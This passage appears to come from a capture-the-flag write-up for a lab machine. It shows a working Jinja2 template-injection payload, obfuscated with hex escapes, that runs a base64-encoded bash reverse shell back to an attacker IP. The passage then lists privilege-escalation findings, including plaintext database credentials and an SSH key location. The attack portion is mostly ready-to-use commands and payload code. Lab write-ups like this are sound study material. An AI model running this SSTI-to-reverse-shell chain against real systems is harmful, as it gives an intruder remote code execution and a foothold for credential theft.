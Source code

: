 ![](screenshots/ssti-fourm.png)

**Getting reverse shell**

Generate encoded reverse shell
```bash
❯ echo -n "/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.71/4141 0>&1'" | base64
L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjcxLzQxNDEgMD4mMSc=

echo -n L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjcxLzQxNDEgMD4mMSc= | base64 -d | bash
```
```py
{% with ssti = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjcxLzQxNDEgMD4mMSc= | base64 -d | bash")["read"]() %} %257B%257Bssti%257D%257D {% endwith %}
```

![](screenshots/ssti-rev-shell.png)

# Privesc

* Found user "chiv" ssh key in his home folder.
* `/var/www/webapp` contains the webapp files which running on port 80
* Found database creds from `/var/www/webapp/app.py`: `chivato:rghorsfruUEFHEfhes83214`
* There is a another http server running on localhost on port 8080
* There is a another folder name "game" which probably running on port 8080, but don't have permission to access into it.

      (remote) chiv@spider:/var/www$ cd game/
      bash: cd: game/: Permission denied




**Forward port 8080 with ssh** (*I use `cat` than `shift` + `~` + `c` to get into ssh prompt because i am using zsh, if you are using bash than you can directaly use `shift` + `~` + `c`*)

